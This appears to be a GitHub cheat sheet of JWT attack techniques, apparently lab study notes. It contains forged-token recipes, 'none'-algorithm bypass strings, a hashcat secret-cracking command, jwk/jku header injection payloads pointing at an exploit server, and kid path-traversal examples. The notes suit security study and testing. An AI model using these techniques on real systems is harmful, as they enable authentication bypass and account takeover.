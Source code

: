 # Content 
- [jwt structure](#jwt-structure)
- [Accepting arbitrary signatures](#accepting-arbitrary-signatures)
- [Accepting tokens with no signature](#accepting-tokens-with-no-signature)
- [Brute-forcing secret keys](#brute-forcing-secret-keys)
- [JWT header parameter injections](#jwt-header-parameter-injections)
  - [Injecting self-signed JWTs via the jwk parameter](#injecting-self-signed-jwts-via-the-jwk-parameter)
  - [Injecting self-signed JWTs via the jku parameter](#injecting-self-signed-jwts-via-the-jku-parameter)
  - [Injecting self-signed JWTs via the kid parameter](#injecting-self-signed-jwts-via-the-kid-parameter)
- [Algorithm confusion attacks](#algorithm-confusion-attacks)




## jwt structure
1) Header



| Header Parameter | Description                                             |
|------------------|---------------------------------------------------------|
| `alg`                        | Algorithm used for signing/verifying the token (e.g., HS256).     |
| `typ`                        | Type of the token (usually "JWT").                     |
| `cty`                        | Content Type, indicating the media type of the token.  |
| `kid` (Key ID)               | Key ID, used to identify the key for verification.      |
| `jwk` (JSON Web Key)         | Provides an embedded JSON object representing the key.                                |
| `jku` (JSON Web Key Set URL) | Provides a URL from which servers can fetch a set of keys containing the correct key. |



2) Payload
- Registered Claims


| Claim             | Description                                                |
|-------------------|------------------------------------------------------------|
| `iss` (Issuer)    | The entity that issued the JWT.                            |
| `sub` (Subject)   | The subject of the JWT, often a user ID.                   |
| `aud` (Audience)  | The intended audience for the JWT.                        |
| `exp` (Expiration) | The time after which the token should not be accepted.   |
| `nbf` (Not Before) | The time before which the token should not be accepted. |
| `iat` (Issued At) | The time at which the JWT was issued.                     |
| `jti` (JWT ID)     | A unique identifier for the token.                         |

- **Public claims:** are intended for use across different applications or by multiple parties.
- **Private Claims:** are specific to a particular application, organization, or use case, and their names are not required to follow standardized conventions.  

3) Signature


JWT token Example : 
```jwt
Header: {
  "alg": "HS256",
  "typ": "JWT"
}

Payload: {
  "iss": "example.com",
  "sub": "1234567890",
  "aud": "myapp",
  "exp": 1677648242,
  "nbf": 1677644642,
  "iat": 1677644642,
  "jti": "a1b2c3d4e5"
  // Custom claims:
  "username": "johndoe",
  "role": "admin"
}

Signature: (Generated using the HMAC-SHA256 algorithm)

```

## Accepting arbitrary signatures
- edit `sub` to another user ex:admin 
- sign the jwt token and send it

## Accepting tokens with no signature
- Setting the alg parameter to "none" is discouraged due to its inherent security risks. 
- Many servers reject unsigned tokens to prevent vulnerabilities. 
- This filtering is based on string parsing, making it possible to bypass such filters using obfuscation techniques like mixed capitalization and unexpected encodings.
```
None
none
NONE

```
## Brute-forcing secret keys
- [jwt secrets list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)
```shell
hashcat -a 0 -m 16500 <jwt> <wordlist> --show

=> <jwt>:<identified-secret>
```


# JWT header parameter injections
## Injecting self-signed JWTs via the jwk parameter
- servers should only use a limited whitelist of public keys to verify JWT signatures.
- misconfigured servers sometimes use any key that's embedded in the jwk parameter.
- You can exploit this behavior by signing a modified JWT using your own RSA private key, then embedding the matching public key in the jwk header.

```json
{
    "kid": "28efc4b6-122a-41ae-9c22-f162a3f4266f",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "28efc4b6-122a-41ae-9c22-f162a3f4266f",
        "n": "qFS9f6gM6Ez6GuNQPJEHfVnwKXE0B7kUIWs4DWigfKx2fNoi5_N72_y4r2OB2IZn0PFBswo1QFTAIVCHqwEMozN16yVWkoRIwzfVeXj7cpTlr7JpWVvbkiEM0SkMgAvP0Rm2wua7d79C5KIQy6kCD7u63Ma45i0EIxpBDqFK788"
    }
}
```
- `e`: The public exponent of the RSA key.
- `n`: The modulus of the RSA key.
- `kid` in the header matches the `kid` in the `jwk`

## Injecting self-signed JWTs via the jku parameter
- some servers let you use the jku (JWK Set URL) header parameter to reference a JWK Set containing the key.
- More secure websites will only fetch keys from trusted domains, but you can sometimes take advantage of URL parsing discrepancies to bypass this kind of filtering.
- You can exploit this behavior by signing a modified JWT using your own RSA private key, then embedding `jku` pointing to a url containing the public key (make sure the `kid` is the same at both).

example of exploit:
```json
{
    "jku": "https://exploit-0a97008704342d7880177f19017b0059.exploit-server.net/exploit.json",
    "kid": "80ee234a-f38f-49f2-9608-7388e11db35e",
    "alg": "RS256"
}
```


example of the file containing the keys :
```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "80ee234a-f38f-49f2-9608-7388e11db35e",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```
- JWK Sets like this are sometimes exposed publicly via a standard endpoint, such as `/.well-known/jwks.json`.

## Injecting self-signed JWTs via the kid parameter
- `kid` parameter may point to a particular entry in a database, or a name of a file
- If this parameter is also vulnerable to directory traversal, an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.
  - if the server also supports JWTs signed using a **symmetric algorithm**.
  - point the `kid` parameter to a predictable, static file, EX: `/dev/null`
  - sign the JWT using a secret that matches the contents of this file.  
```json
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```
- the `kid` header parameter is also a potential vector for **SQL injection** attacks. 

# Algorithm confusion attacks
